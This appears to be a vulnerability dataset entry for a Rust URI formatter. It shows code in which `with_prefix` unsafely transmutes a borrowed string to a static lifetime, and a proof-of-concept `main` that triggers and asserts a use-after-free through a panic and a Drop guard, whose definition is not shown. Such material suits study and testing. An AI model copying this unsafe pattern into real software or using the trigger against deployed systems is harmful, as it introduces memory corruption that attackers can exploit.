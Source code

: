 ## Dependencies:
- Crates:
  - `std`
  - `smallvec = "1.0"`
- Types:
  - Structs: `Formatter<'i, P>`, `Wrapper<'a, 'b>`, `MyDisplay`, `MyValue`
  - Enums: `Query`
  - Primitive Types: `&str`, `char`, `bool`
- Traits:
  - `UriPart`
  - `UriDisplay<P>`
  - `std::fmt::Write`
  - `Drop`
- Functions and Methods:
  - Associated Functions: `Formatter::new`
  - Methods: `Formatter::with_prefix`, `Formatter::write_named_value`, `Formatter::write_raw`, `std::panic::catch_unwind`

## Vulnerable Code:
```rust
impl<'i> Formatter<'i, Query> {
    fn with_prefix<F>(&mut self, prefix: &str, f: F) -> fmt::Result
        where F: FnOnce(&mut Self) -> fmt::Result
    {
        let prefix: &'static str = unsafe { std::mem::transmute(prefix) };

        self.prefixes.push(prefix);
        let result = f(self);
        self.prefixes.pop();

        result
    }
}
```

## Trigger Method
```rust
fn main() {
    let mut buffer = String::new();
    let mut formatter = Formatter::<Query>::new(&mut buffer);

    let poc_trigger = MyDisplay;

    // Trigger the panic within a controlled environment to catch it.
    let result = std::panic::catch_unwind(std::panic::AssertUnwindSafe(|| {
        UriDisplay::fmt(&poc_trigger, &mut formatter)
    }));

    // Assert that a panic occurred as expected.
    assert!(result.is_err());

    // After the panic, the Drop guard in the PoC has executed,
    // which re-used the dangling pointer's memory location.
    // The call to `write_raw("world")` inside the Drop guard
    // uses the dangling pointer, which now points to "12345".
    // This results in the UAF output.
    assert_eq!(buffer, "12345=world");
    
    println!("Successfully triggered and verified Use-After-Free.");
    println!("Buffer content: {}", buffer);
}
```